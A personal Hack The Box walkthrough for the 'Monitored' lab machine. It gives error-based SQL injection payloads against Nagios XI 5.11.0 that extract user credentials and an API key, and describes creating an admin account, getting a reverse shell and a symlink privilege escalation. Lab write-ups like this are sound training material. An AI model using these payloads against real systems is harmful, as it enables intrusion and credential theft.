






**Start 14:14 19-04-2025**

---
```
Scope:
10.10.11.248
```
# Recon

## Nmap

### TCP

```bash
sudo nmap -sC -sV -p- monitored -sT -T5 --min-rate=5000 -Pn -vvvv

PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Nagios XI
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
5667/tcp open  tcpwrapped syn-ack
Service Info: Hosts: nagios.monitored.htb, 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### UDP

I then went on to scan UDP ports as well.

```bash
sudo nmap -sC -sV -p161 monitored -sU -T5 --min-rate=5000 -Pn -vvvv

PORT    STATE SERVICE REASON              VERSION
161/udp open  snmp    udp-response ttl 63 SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-sysdescr: Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
|_  System uptime: 5m33.13s (33313 timeticks)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 6f3fa7421af94c6500000000
|   snmpEngineBoots: 36
|_  snmpEngineTime: 5m33s
```

Some interesting params popped up as well:


There appears to be a set of creds written down here?

```creds
svc
XjH7VCehowpR1xZB
```


## 22/TCP - SSH

Tried to go for a quick win, alas:


## 443/TCP - HTTPS


When clicking **Access** we get the following page:



I tried logging in with the presumed creds but that didn't work:


However if we enter a different password we get a completely different error message:



Interesting, this means that the creds are HIGHLY LIKELY correct and the account access has been restricted.

For now we can't do anything further, let's enumerate the endpoints.


## Feroxbuster

After a LONG while I finally got some luck:


However when going to the page we get the following:


This might call for some `burpsuite` action.

## BurpSuite


Let's change it to `POST`


I then added the following 2 lines in order to create the `POST` request:

```
Content-Type: application/x-www-form-urlencoded

username=svc&password=XjH7VCehowpR1xZB
```


>[!warning]
>The highlighted line is absolutely paramount for success, without it the request will fail!

This gives us the following response:


Having received the `auth_token` we can use this `curl` request to get access to the backend:




Strange, this might mean that either the `auth_token` =/= the `api-key`, or that it is indeed invalid.

I looked up the endpoint to look for more help:


```bash
curl -k -L 'https://nagios.monitored.htb/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=72695c532f2fff8b9ddcd6aaaffe2f27b6224650' > image.png
```


It seemed to work! Looks like we found the correct param being `token`.

I then had to get a new token because the last one expired:


I used the token to login:


This rerouted me to the following page:


Couple thins to note down are the version running:

```
Nagios Xi 5.11.0
```


There seems to be a SQLi vulnerability for this version, let's first check out what else we can find:


We were able to find the API key.


## SQLi

Let's move on to the SQLi [POC](https://rootsecdev.medium.com/notes-from-the-field-exploiting-nagios-xi-sql-injection-cve-2023-40931-9d5dd6563f8c)


Trying this out we see the following response:


>[!success]
>Error = good!

>[!info]
>Let's modify our SQLi, since the rest of the POC writeup goes on using SQLmap I will be diverting my course, since I cannot always use SQLmap in the wild (such as OSCP exam).


I then started checking for the version of SQL running:

```sql
id=1 AND EXTRACTVALUE(1,(SELECT VERSION()))
```


This seemed to work and displayed the version, meaning our query worked!


>[!important]
>Going forward we need to make sure that our query throws an error message, or it will simply not be telling us the outcome of our query i.e.
>


We notice that there's a total of 2 databases, namely `information_schema` and `nagiosxi`.

Next step here would be to query the table and columns of the `nagiosxi` database. To get the full output we can use something like:

```sql
id=1 AND EXTRACTVALUE(1,concat(1, (select group_concat(TABLE_NAME, COLUMN_NAME) from information_SCHEMA.COLUMNS where TABLE_SCHEMA = 'nagiosxi')))
```

However the output only shows the first part since the output is limited:


We can change it up in order to get the individual tables first:

```sql
id=1 AND EXTRACTVALUE(1,concat(1, (select TABLE_NAME from information_SCHEMA.COLUMNS where TABLE_SCHEMA = 'nagiosxi' LIMIT 0,1)))
```

This would be an extraordinary tedious process, but when increasing the number in `LIMIT 0,1` it will go on to the next table in the database. To speed things up we can use `Intruder` inside `burpsuite`:


### Burpsuite - Intruder

We will send our initial request to `Intruder` and then do the following:




>[!warning]
>This will still be an enormously tedious process to check, however as per [this ippsec video](https://www.youtube.com/watch?v=Ulb2rm2qbJY) I learned how to make it a more grep-able output.


We will now click on **Add** and add the following expression and delimiter:


This will make sure that our output starts at the `|` symbol we used in the `concat` command, and it will end in the single quote SQL delimiter.


We found the table name that we're looking for, namely `xi_users`. Now let's modify our `Repeater` query and get the columns from this table.



Again when we change it to `1,1` we get the following column:


When running this in `Intruder` we notice that `1,1` returns usernames and `2,1` returns passwords.

Furthermore `7,1` returns us the `api_key` variable that we so desperately need:


We can now get the juicy stuff, this being the `username`, `password` and `api_key` variables.

```sql
id=1 AND EXTRACTVALUE(1,concat(0x7e,(SELECT username from xi_users LIMIT 0,1)))
```


>[!note]
>Since it can't give us full outputs we'll have to improvise by using the `SUBSTRING` command.

```sql
id=1 AND EXTRACTVALUE(1,concat(0x7e,(SELECT substring(password,1,28) from xi_users LIMIT 0,1)))
```

```
nagiosadmin
$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C
IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
```


I'll try to crack it for good measure.

>[!fail]
>Spoiler alert, this wouldn't crack.


## New Account creation


This time the curl command worked, confirming the correct API key.

After some more snooping online I found the following PoC:


Here I found a POST request that creates a new admin user using the admin API key (the one we just found).


We follow the same `data` command:


It shows the user has been succesfully created.

```
l33th4x0r
Password123
```


# Foothold
## Shell as Nagios

We can now log out and login again as our newly created user:


We notice the new **Admin** panel:


However this isn't as interesting for us, instead let's peek at this:


We can create and execute commands from the config manager, let's try and create a reverse shell.


Now we press **Save** and head on over to the **Core Config Manager** -> **Services** tab where we also add a new service.


Just like that we got a revshell.

## user.txt


## User enum

Before doing any enum I went ahead and made my life easier by using my private key to SSH into the target:


Now that I had a more stable shell I went on with enumeration.


From these files I noticed that `getprofile.sh` zipped log files:




# Privilege Escalation

We will now be inspecting the `getprofile.sh` script and check for symlinks.

>[!important]
>When zipping files, symlinks are one of the most important things to look for.

>[!note]
>For this I will also be following along with the ippsec video as I do not know enough about symlinks.


We notice inside the script that it's grabbing the last 500 characters from the `cmdsubsys.log` file and zipping it into the `cmdsubsys.txt` file inside the zip. Let's create a sym link involving the presumed `id_rsa` file from *root*.


Let's see if it worked.


We then head on down the rabbit hole until we find the correct file.


Perfect, let's copy it over and get our root shell.


Just like that we've got access as *root*.

## root.txt


---

**Finished 21:25 19-04-2025**

[^Links]: [[Hack The Box]] [[OSCP Prep]]

#SQLi #burpsuite #Repeater #Intruder #NagiosXI #Symlinks 
